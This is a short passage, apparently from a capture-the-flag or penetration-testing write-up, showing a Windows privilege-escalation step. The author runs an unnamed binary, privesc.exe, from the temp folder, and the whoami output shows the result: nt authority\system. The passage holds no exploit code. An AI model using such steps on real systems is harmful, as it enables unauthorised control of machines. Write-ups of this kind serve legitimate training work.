 ### privilage escalation

Moving back to my `temp` folder where I had saved the file, I was now able to execute it and get `nt authority\system`

```
cd c:\windows\temp
privesc.exe                                  

whoami                                          
whoami                                          
nt authority\system                             

c:\Windows\System32>
```
